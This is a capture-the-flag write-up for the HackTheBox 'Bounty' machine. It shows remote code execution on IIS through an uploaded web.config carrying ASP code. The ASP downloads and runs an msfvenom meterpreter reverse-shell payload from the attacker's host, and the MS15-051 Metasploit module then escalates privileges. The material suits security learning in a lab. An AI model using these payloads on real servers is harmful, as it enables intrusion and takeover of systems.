








# Write up for hackthebox / Bounty
## Enumeration
As always, we will start with our nmap scan to see what ports / services are open on the box.

```
# -sS uses a SYN scan
# -sV does a service scan (attempts to figure out what is running on the open port)
# -Pn tells nmap not to ping the target first
root@kali:~/ctf/hackthebox/bounty# nmap -sS -sV -Pn 10.10.10.93
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-11 17:08 EDT
Nmap scan report for 10.10.10.93
Host is up (0.032s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.88 seconds
```

Looks like port 80 is the only TCP port open, so we should start there.

When we load the site, we are greeted with a picture of Merlin the wizard:


The source code does not reveal anything particularly interesting:


It is time to break out dirbuster to see if we can find any other files or directories.  I like to start with a wordlist because brute forcing arbitrary combinations of letters and numbers can take a long time and make a lot of unecessary requests to the server.

I ran dirbuster with the ```/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt``` and had dirbuster look for directories and files with the following extensions: ```asp, aspx, html, htm```.  Since we know from our nmap scan that this box is running IIS, those are common extensions we can start with.  After a few minutes, we get a few results we can start with:


Let's take a look at transfer.aspx:


## User Flag
This seems like a very simple form.  I have a feeling that any files uploaded here will be available in the uploadedfiles directory.  I started with a text file and I got an error message about invalid file type.  That means this application is whitelisting files either by extension, signature, or both.  Through trial and error, the following extensions worked: ```gif, png, jpg, doc, docx, xls, xlsx, jpeg, config```.  The image formats and Office documents make sense, but the file format stands out is config.  Files with a config extension are used by IIS 7 and later for storing IIS settings.  They are XML-based.  You can learn more about config files here [1].  web.config stores various configuration options for the web application like session state configuration, security configuration, and error handling settings.  It is similar to ```.htaccess``` if you are familiar with Apache.  After doing a little more digging, I found two sites <sup>[2],[3]</sup> that describe how you can achieve remote code execution using a specially crafted web.config file.

Using the code from [2] and [3], I came up with the following to read directories on the server.  I knew merlin was a user by running ```cmd.exe /c whoami``` in the ```wShell1.Exec``` line.  The reason you have to run ```cmd.exe /c``` is because dir is built into cmd.exe and not its own executable.  ```/a h``` tells dir to show hidden files, and ```/s``` tells dir to be recursive.  We will upload this file as web.config and access ```http://10.10.10.93/uploadedfiles/web.config```

I added some comments to this file so that you can see what is going on (ref [4], [5], [6]):
```xml 
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <!-- Allow web.config to read files, execute scripts, and write directories files -->
      <handlers accessPolicy="Read, Script, Write">
        <!-- Add a handler named web_config (name="web_config"):
             That applies to .config files (path="*.config")
             and all HTTP verbs like GET, POST, and HEAD (verb="*")
             Use the IsapiModule to handle .config files (modules="IsapiModule").  The ISAPI module handles ASP scripts and pages.
             Use asp.dll (scriptProcessor="%windir%\system32\inetsrv\asp.dll") to process scripts.  asp.dll handles classic ASP scripts.
             
             resourceType="Unspecified" lets us apply this mapping to a file name or extension that does not exist on disk
             requireAccess="Write" lets this handler write files (which we will need in order to execute files on the remote box)
             preCondition="bitness64" tells the handler that it should only run in 64-bit mode (in this case, our script processor is a 64-bit DLL on an x64 system, so we want to make sure the architectures match)
         -->
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <!-- Remove .config from file extensions that are denied -->
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <!-- Remove .config from file extensions that cannot be accessed -->
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code goes here! It should not include HTML comment closing tag and double dashes!
<%
' Close out the XML comment from the lines above
Response.write("-"&"->")

' Create a Windows Script Shell Object that will allow us to execute commands
Set wShell1 = Server.CreateObject("WScript.Shell")

' Execute the command
Set cmd1 = wShell1.Exec("cmd.exe /c dir /a h /s C:\Users\merlin\")

' Read the output
output1 = cmd1.StdOut.Readall()

' Write it to the response
Response.write("<pre>")
Response.write(output1)
Response.write("</pre>")

' Comment out any remaining lines
Response.write("<!-"&"-")
%>
-->
```

Eventually, we find user.txt (the user flag) on merlin's desktop:


We can modify our web.config and reupload it to get the contents of user.txt
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <!-- Allow web.config to read files, execute scripts, and write directories files -->
      <handlers accessPolicy="Read, Script, Write">
        <!-- Add a handler named web_config (name="web_config"):
             That applies to .config files (path="*.config")
             and all HTTP verbs like GET, POST, and HEAD (verb="*")
             Use the IsapiModule to handle .config files (modules="IsapiModule").  The ISAPI module handles ASP scripts and pages.
             Use asp.dll (scriptProcessor="%windir%\system32\inetsrv\asp.dll") to process scripts.  asp.dll handles classic ASP scripts.
             
             resourceType="Unspecified" lets us apply this mapping to a file name or extension that does not exist on disk
             requireAccess="Write" lets this handler write files (which we will need in order to execute files on the remote box)
             preCondition="bitness64" tells the handler that it should only run in 64-bit mode (in this case, our script processor is a 64-bit DLL on an x64 system, so we want to make sure the architectures match)
         -->
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <!-- Remove .config from file extensions that are denied -->
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <!-- Remove .config from file extensions that cannot be accessed -->
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
' Close out the XML comment from the lines above
Response.write("-"&"->")

' Create a Windows Script Shell Object that will allow us to execute commands
Set wShell1 = Server.CreateObject("WScript.Shell")

' Execute the command
Set cmd1 = wShell1.Exec("cmd.exe /c type C:\Users\merlin\Desktop\user.txt")

' Read the output
output1 = cmd1.StdOut.Readall()

' Write it to the response
Response.write("<pre>")
Response.write(output1)
Response.write("</pre>")

' Comment out any remaining lines
Response.write("<!-"&"-")
%>
-->
```

## Getting the Root Flag
Through testing and observing the behavior of the box, it turns out that files uploaded via the application are deleted after about 30 seconds.  That means we have to act fast.  If we upload a tool like meterpreter, it will go away once the web.config we upload is wiped (since it is being executed in the context of web.config).  That means we need to do something like this:

  1. Upload and execute our payload
  2. Migrate into another process that is running on the box.  This might mean that we have to spawn a process ourselves.

So, how are we going to execute our payload?  First, we need a payload.  I will use meterpreter for this example.  I tried using a PowerShell payload, but I could not get that to execute on the box.  An exe payload ended up working for me.  In the real world, this payload probably would have lit up anti-virus or an IDS.  However, for learning, this will work.  I used msfvenom to generate the payload:
```bash
# This box is likely 64-bit, so we will use a 64-bit payload (windows/x64/meterpreter/reverse_tcp)
# If you want to be safe, use the 32-bit payload (windows/meterpreter/reverse_tcp)
# LHOST and LPORT are the IP and port you will listen on respectively.  I chose a random high port (45125)
# -f exe tells msfvenom to output an exe
# We will call our payload iis.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.38 LPORT=45125 -f exe > iis.exe
```

Now that we have a payload, how are we going to get it onto the box?  Since we can execute arbitrary classic ASP code, we can set up an HTTP server on our box and have web.config download and execute our payload.  We can set up a quick HTTP server using python:
```bash
# cd to the directory you want to serve from
# 80 is the port we will serve on
python -m SimpleHTTPServer 80
```

I found some code on StackOverflow <sup>[4]</sup> to download and execute a file and modified it for our environment.  This is a modified version of the web.config file we have been working with.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <!-- Allow web.config to read files, execute scripts, and write directories files -->
      <handlers accessPolicy="Read, Script, Write">
        <!-- Add a handler named web_config (name="web_config"):
             That applies to .config files (path="*.config")
             and all HTTP verbs like GET, POST, and HEAD (verb="*")
             Use the IsapiModule to handle .config files (modules="IsapiModule").  The ISAPI module handles ASP scripts and pages.
             Use asp.dll (scriptProcessor="%windir%\system32\inetsrv\asp.dll") to process scripts.  asp.dll handles classic ASP scripts.
             
             resourceType="Unspecified" lets us apply this mapping to a file name or extension that does not exist on disk
             requireAccess="Write" lets this handler write files (which we will need in order to execute files on the remote box)
             preCondition="bitness64" tells the handler that it should only run in 64-bit mode (in this case, our script processor is a 64-bit DLL on an x64 system, so we want to make sure the architectures match)
         -->
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <!-- Remove .config from file extensions that are denied -->
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <!-- Remove .config from file extensions that cannot be accessed -->
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
' Close out the XML comment from the lines above
Response.write("-"&"->")

' This is the URL of the payload on our box
strFileURL = "http://10.10.14.38/iis.exe"

' This is where we will write the payload to.  C:\Windows\Temp is usually writable by everyone
strHDLocation = "c:\windows\temp\iishelper75x.exe"

' Set up the object that will download the file
Set objXMLHTTP = CreateObject("MSXML2.ServerXMLHTTP.3.0")

' Download the file
objXMLHTTP.Open "GET", strFileURL, False
objXMLHTTP.Send()

' If it worked, then do stuff.
If objXMLHTTP.Status = 200 Then
    ' Create a file object we can write to
    Set objADOStream = CreateObject("ADODB.Stream")
    
    ' Open the file object
    objADOStream.Open
    objADOStream.Type = 1 'adTypeBinary since the file is a binary

    ' Write the response (our payload) to the file object
    objADOStream.Write objXMLHTTP.ResponseBody
    
    ' Set the stream position to the start
    objADOStream.Position = 0

    ' Check to see if the file exists, and if so, try to delete it
    Set objFSO = CreateObject("Scripting.FileSystemObject")
    If objFSO.FileExists(strHDLocation) Then objFSO.DeleteFile strHDLocation
    Set objFSO = Nothing

    ' Write the file to the location specified above
    objADOStream.SaveToFile strHDLocation
    
    ' Close the newly written file
    objADOStream.Close
    Set objADOStream = Nothing
End if

Set objXMLHTTP = Nothing

' Create a Windows Script Shell Object that will allow us to execute commands
Set wShell1 = Server.CreateObject("WScript.Shell")

' Execute our payload which is at the location defined above
Set cmd1 = wShell1.Exec(strHDLocation)

' Capture any output and write it to the response that is sent back to us
output1 = cmd1.StdOut.Readall()
Response.write("<pre>")
Response.write(output1)
Response.write("</pre>")

' Comment out any remaining lines
Response.write("<!-"&"-")
%>
-->
```
In order to stick around, we will spawn a process and migrate into it.  We will spawn something innocuous like calc or notepad:
```
# -H hides the process from view
execute -f "C:\Windows\System32\notepad.exe" -H
```
We can then list processes with ```ps``` or look at the output of the execute command:


We can see that our notepad process is PID 1576, so we can migrate into it with the migrate command.

Looking around for exploits, I stumbled across MS15-051 (CVE-2015-1701).  More information is available [here](https://www.rapid7.com/db/modules/exploit/windows/local/ms15_051_client_copy_image).

Since this is a privilege escalation, we need to use it in conjunction with an open meterpreter session.  
```
msf exploit(windows/local/ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows x86
```
Our meterpreter session is number 7:
```
msf exploit(windows/local/ms15_051_client_copy_image) > set session 7
session => 7
```
We also need to set the correct target.  If you run ```show targets```, you will see a list of targets.
The most appropriate one for this example is Windows x64 (Target 1):
```
msf exploit(windows/local/ms15_051_client_copy_image) > set target 1
target => 1
```

Finally, we need a payload.  I will use another meterpreter reverse TCP payload:
```
msf exploit(windows/local/ms15_051_client_copy_image) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

Looking at the current configuration, we need to set the host and port we want the payload to call back to:
```
msf exploit(windows/local/ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  7                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows x64
```
We can do that with the ```set LHOST``` and ```set LPORT``` commands.

I chose a random high numbered port (38592).  You can choose whatever port you want.

If we check the current configuration again with ```show options```, it looks like we are ready to go:



All that is left to do is run it:
```
msf exploit(windows/local/ms15_051_client_copy_image) > run
```

```
[*] Started reverse TCP handler on 10.10.14.38:38592 
[*] Launching notepad to host the exploit...
[+] Process 2072 launched.
[*] Reflectively injecting the exploit DLL into 2072...
[*] Injecting exploit into 2072...
[*] Exploit injected. Injecting payload into 2072...
[*] Payload injected. Executing exploit...
[*] Sending stage (206403 bytes) to 10.10.10.93
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 8 opened (10.10.14.38:38592 -> 10.10.10.93:49203) at 2018-08-12 20:51:41 -0400
```
After a bit of poking around, we find the root flag:


## References
[1]: https://docs.microsoft.com/en-us/iis/get-started/planning-your-iis-architecture/the-configuration-system-in-iis-7 "The Configuration System in IIS 7"
[2]: https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/ "RCE by uploading a web.config - 003Random's Blog"
[3]: https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/ "Upload a web.config File for Fun & Profit - Soroush Dalili"
[4]: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/ "Handlers <handlers> | Microsoft Docs"
[5]: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/add "Adding Handlers <add> | Microsoft Docs"
[6]: https://msdn.microsoft.com/en-us/library/2wawkw1c(v=vs.100).aspx#Anchor_1 "Web Site File Types - MSDN"
[7]: https://stackoverflow.com/questions/10496675/download-files-from-url-using-classic-asp "StackOverflow - Download Files From URL Using Classic ASP"

  * [<sup>1</sup> The Configuration System in IIS 7](https://docs.microsoft.com/en-us/iis/get-started/planning-your-iis-architecture/the-configuration-system-in-iis-7)
  * [<sup>2</sup> RCE by uploading a web.config - 003Random's Blog](https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/)
  * [<sup>3</sup> Upload a web.config File for Fun & Profit - Soroush Dalili](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
  * [<sup>4</sup> Handlers <handlers> | Microsoft Docs](https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/)
  * [<sup>5</sup> Adding Handlers <add> | Microsoft Docs](https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/add)
  * [<sup>6</sup> Web Site File Types - MSDN](https://msdn.microsoft.com/en-us/library/2wawkw1c(v=vs.100).aspx#Anchor_1)
  * [<sup>7</sup> StackOverflow - Download Files From URL Using Classic ASP](https://stackoverflow.com/questions/10496675/download-files-from-url-using-classic-asp)
